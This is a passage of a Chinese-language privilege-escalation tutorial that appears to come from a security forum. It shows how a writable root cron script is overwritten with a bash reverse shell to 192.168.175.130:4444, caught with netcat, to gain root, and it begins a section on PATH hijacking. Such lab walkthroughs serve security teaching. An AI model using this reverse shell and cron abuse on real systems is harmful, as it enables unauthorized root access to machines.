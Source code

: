 ```cat
cat /etc/crontab
```

![image-20210630171256823](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7e11c9996ab80702455329960fc96baa6bca417a.png)

### 2.在服务器上查找overwrite.sh 文件：

```php
locate overwrite.sh 
```

![image-20210630171347594](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2da119d448f2523bcae0f85c4296ded2758c7fc3.png)

```php
/usr/local/bin/overwrite.sh
```

### 3.检查文件的权限

```php
ls -l /usr/local/bin/overwrite.sh
```

![image-20210630171515478](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dcf9670c88ba8a2f27257902f74239101814561f.png)

注意：这个文件是可写的

### 4.将 overwrite.sh文件的内容替换为：

```php
#!/bin/bash 
bash -i >& /dev/tcp/192.168.175.130/4444 0>&1
```

![image-20210630171650623](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4bc93b1eb40a22eca847643fad322f1373f77a5a.png)

### 5.kali上运行nc

等待 cron jobs运行，返回root权限

路径环境变量
------

默认情况下，crontab环境变量设置为：`/usr/bin:/bin`  
路径变量可以覆盖在crontab文件中。  
如果 cron jobs程序/脚本不使用绝对路径，并且其中一个 PATH 目录可由我们的用户编写，我们也许能够创建与 cron jobs同名的程序/脚本。

实操
--

### 1.查看system-wide crontab的内容：

```php
cat /etc/crontab
```
